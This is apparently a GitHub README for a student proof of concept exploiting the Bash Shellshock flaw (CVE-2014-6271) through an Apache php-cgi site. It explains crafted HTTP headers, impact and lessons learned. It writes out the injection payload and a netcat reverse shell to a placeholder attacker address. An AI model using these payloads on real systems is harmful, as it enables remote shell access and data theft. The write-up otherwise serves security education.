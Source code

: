 RBE
===

Remote Bash Execution

This POC (proof of concept) is for EDUCATIONAL PURPOSES ONLY! Please, do not use it with wrong intents in mind.

We set up a simple PHP website and a Python executable that exploits the [bash shellshock vulnerability](http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/).


Development
=============
Please note that all the following tests were done in a local controlled environment for educational purposes only. Do NOT do this at home!
- Initially, we tested the vulnerability on our environments with the following command (see the link above for the source): 
 
 `env x='() { :;}; echo vulnerable' bash -c "echo this is a test`

- Next, we set up an http server on a CentOS machine with Apache and php-cgi running a very simple script (see index.php).

- We started out by sending simple crafted HTTP packets that echoed text (inspired by [this blog post](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html#.VCNinnVdW00). The JOY when it worked!

- We then tested more elaborate commands to discover what we had access to. In our case, typing the command names as an apache user would not resolve the commands, yet calling them explicitly (`/usr/bin/command`) worked. We were then able, for example, to run `find` commands and see all the files we had access to.

- At this point, it was annoying to type the commands individually. Fortunately, `nc` was installed on the server, so we used a reverse bind shell (`nc -lvp xxx` for the attacker and `nc -e /usr/bin/sh atckr_addr port` for the victim) for flexibility. At this point, we had a shell on the system, but running as an apache user, all through a single HTTP packet with the right (or wrong?) headers.

- To simplify the process, we made a python script (in this repo) that calls netcat automatically.

Impact
======
With a shell on the victim's computer (limited as much as the apache user is on the machine), here is what we believe an attacker could do at this point:

- In our case, we only had write access to /tmp (which was actually a subdirectory within the real /tmp), so no straightforward way for a permanent backdoor.

- We had access to the source code, which could be leaked afterwards.

- Depending on the setup (and knowledge of the attacker), one could privilege escalate and break the apache jail.

- Once inside, we can easily DDoS the system (which can hurt companies). We experienced this ourselves by playing around with `cat /dev/urandom/ > file`.

- We can DDoS another target (the initial target most likely has more firepower than an average system).

- We had access to the LAN, which could give access to new computers behind the firewall.

We probably are missing many other potential attack vectors here, but that is what we observed given a one-night hack-a-ton.

Therefore, we can see the major impact that CVE-2014-6271 ("shellshock") has.

The Exploit
===========
Given our limited knowledge of bash internals and the short time window that we had, here is what we understood of the exploit:

- When bash reads an environment variable containing a specially crafted function (i.e. `() { :; };`), it also executes the commands following the function definition (e.g. `echo hacked`).

- This can not really be exploited remotely by itself, it needs software that takes user input as a source for environment variable values.

- So, when php-cgi is started by Apache through bash (which looks like the default behavior), certain HTTP headers are passed through env (e.g. referer, host, cookies, etc.). However, not all CGIs pass these values through env (e.g. FastCGI communicates through sockets), so they are not all affected (we tested it!)

- Now, given carefully crafted HTTP headers (such as `() { :; }; echo hacked`), the next instruction through bash (e.g. a PHP `exec()`) will trigger the vulnerability.

Conclusion
==========
Finally, this was a very entertaining and rewarding experience. We clearly saw how dangerous this vulnerability is. For example, we have read about other software than Apache that can be used to exploit bash, such as DHCP clients. A clever attacker could start a malicious DHCP server in proximity of the victims and gain root access on the systems (as the dhcp client will execute the command as root).

Interestingly, we were surprised while testing the exploit: our reverse bind shell through nc was not interrupted when the connection with Apache is timed out. We expected the connection to be closed, but the actual behavior ended up being convenient.

We want to emphasize the fact that this was for educational purposes only. Please do not use with malicious intent.


This analysis was brought to you by [/JesseEmond](https://github.com/JesseEmond) and [/Parasithe](https://github.com/Parasithe).
